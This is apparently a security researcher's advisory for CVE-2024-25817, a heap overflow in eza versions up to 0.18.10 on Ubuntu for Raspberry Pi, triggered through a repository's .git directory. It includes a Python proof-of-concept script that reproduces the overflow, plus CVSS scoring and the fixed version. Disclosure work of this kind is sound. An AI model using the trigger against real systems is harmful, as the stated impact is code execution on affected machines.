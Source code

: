 ```yaml
---
title: "CVE-2024-25817"
date: '2024-02-05'
lastmod: '2024-06-08'
tags: ['PWN', 'Heap', 'CVE']
draft: false
summary: "In eza, there exists a potential heap overflow vulnerability, first seen when using Ubuntu for Raspberry Pi series system, on `ubuntu-raspi` kernel, relating to the `.git` directory."
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

## 0x01 Summary

In `eza` [^1] (before `v0.18.11`), there exists a heap overflow vulnerability, first seen when using Ubuntu for Raspberry Pi series system, on `ubuntu-raspi` kernel, relating to the `.git` directory.

## 0x02 Details

The vulnerability seems to be triggered by the `.git` directory in some projects. This issue may be related to specific files, and the directory structure also plays a role in triggering the vulnerability. Files/folders that may be involved in triggering the vulnerability include `.git/HEAD`, `.git/refs`, and `.git/objects`.

## 0x03 PoC - If you have Raspberry Pi 4B bare metal machine

**If you don't have Raspberry Pi bare metal, you can try emulate a ubuntu for raspberry system in virtual machine.**

You just need install any one of Ubuntu for Raspberry Pi series system in your bare metal machine.

### 1x01 Tested platform info

Configuration in `Raspberry Pi 4B` bare metal machine:

```bash
eza version: v0.18.10 [+git]

Linux lux 5.15.0-1049-raspi #52-Ubuntu SMP PREEMPT Thu Mar 14 08:39:42 UTC 2024 aarch64 aarch64 aarch64 GNU/Linux

Distributor ID: Ubuntu
Description: Ubuntu 22.04.4 LTS
Release: 22.04
Codename: jammy
```

> [!IMPORTANT]
> So far I have only tested the `Ubuntu 22.04.4 LTS Server` and confirmed that this vulnerability exists. I haven't test other System/Raspberry Pi yet.

### 1x02 Steps

Install `eza (<=v0.18.10)` in Raspberry Pi. Process can refer to the official [wiki](https://github.com/eza-community/eza/blob/main/INSTALL.md).

```python:poc.py
#!/usr/bin/env python3

import os
import shutil
import subprocess

# Step 1: Clone the repository
repo_url = "https://github.com/umami-software/umami.git"
subprocess.run(["git", "clone", repo_url])

# Step 2: Checkout to the specific commit contain the special '.git' directory that can trigger the vulnerability
repo_dir = "umami"
commit_hash = "a38baa5"
os.chdir(repo_dir)
subprocess.run(["git", "checkout", commit_hash])

# Step 3: Create a directory for the vulnerability related files
os.chdir("..")
os.mkdir("suspicious")
shutil.move(os.path.join(repo_dir, ".git"), "suspicious/.git")

# Step 4: Remove unrelated files/directories
shutil.rmtree(repo_dir)

# Step 5: Trigger the vulnerability
subprocess.run(["eza", "-l", "--git", "suspicious/.git"])
```

<center>
  <Image alt="overflow" src="https://s11.ax1x.com/2024/02/07/pF1fNkT.png" width={1135} height={126} />
</center>

> [!NOTE]
> The picture shows my test environment. In actual testing, the vulnerability can be triggered by just using the above command.

## 0x04 Impact

Arbitrary code execution.

## 0x05 Severity using CVSS

Severity: `High 8.4`<br />
Vector string: `CVSS:3.1/AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

## 0x06 Weaknesses

 - Heap-based Buffer Overflow (CWE-122)
 - Improper Restriction of Operations within the Bounds of a Memory Buffer
 (CWE-119)
 - Missing Release of Memory after Effective Lifetime (CWE-401)
 - Improper Resource Shutdown or Release (CWE-404)
 - Improper Initialization (CWE-665)

## 0x07 GitHub Advisories

 - GitHub Advisories.[^3]

## 0x08 NIST

 - National Vulnerability Database.[^4]

## 0x09 Solution

Update eza to `0.18.11` or higher version.

[^1]: [eza](https://github.com/eza-community/eza/tree/main): A modern,
maintained replacement for ls.
[^2]: Download Ubuntu for Raspberry Pi image file from [this site](https://ubuntu.com/download/raspberry-pi).
[^3]: [GitHub Advisories](https://github.com/advisories/GHSA-3qx3-6hxr-j2ch)
[^4]: [CVE-2024-25817](https://nvd.nist.gov/vuln/detail/CVE-2024-25817)

